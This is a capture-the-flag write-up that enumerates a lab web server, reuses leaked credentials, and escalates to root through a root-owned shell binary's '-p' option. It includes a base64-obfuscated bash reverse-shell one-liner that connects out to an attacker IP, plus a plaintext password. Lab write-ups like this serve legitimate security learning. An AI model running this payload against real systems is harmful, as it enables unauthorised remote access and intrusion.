# Step 1  - Recognition

First, I use nmap to enumerate opened ports :
```bash
$ nmap <machine_ip>
Starting Nmap 7.93 ( <https://nmap.org> ) at 2024-03-25 19:21 CET
Nmap scan report for 10.10.7.154
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
```

The port 80 is opened as an HTTP server :


I enumerate subdirectories using gobuster :
```bash
gobuster dir -u <machine_ip> -w common.txt
```



## Step 2 - Exploit

#### Flag mandatory.txt

I find a file `robot.txt` that contains a Disallow line with the following subdirectory :
- `/1337_53CR37_l41r`


Here I got a password : `8ES7_SHeLL_Ev4H`. 

Let's search for a username. On the html source-code of the home page, we found this :


We have credentials : `d4rk_T1t0u4N:8ES7_SHeLL_Ev4H`

We can try to find somewhere to use the credentials by using the same gobuster command and adding a `.php` extension to every subdirectories :
- `gobuster dir -u <machine_ip> -w common.txt -x php` :


Here we find 2 pages :
- `login.php`
- `portal.php`

On the `portal.php` page we find this :


The credentials found works on this page. After loging in, I am redirected to this page :


This page allow us to use an Epitech project named "42sh" which is a shell. We can execute a reverse-shell by using this payload :
- `echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTQuNzYuMC80NDQ0IDA+JjE=" | base64 --decode | bash`

Then we can get the flag mandatory_flag :


#### Flag optional

I see that I am logged in as `www-data`. I can list the users by searching the home directories of the different users :


I can try to use the same credentials :
```bash
$ su titouan
Password: 8ES7_SHeLL_Ev4H
```

And I finally get the optional flag.
#### Flag bonus

In the home directory of `titouan`, I find the binary `42sh` which is created by the user `root` :


On the help page of the binary, we can get more details on the shell options by executing the following command `./42sh -c "help set”`:


I see that I can use the flag `-p` to execute the file using the permission of the owner of the file (which is `root`) :


Then we can get the root and the final flag with this command :

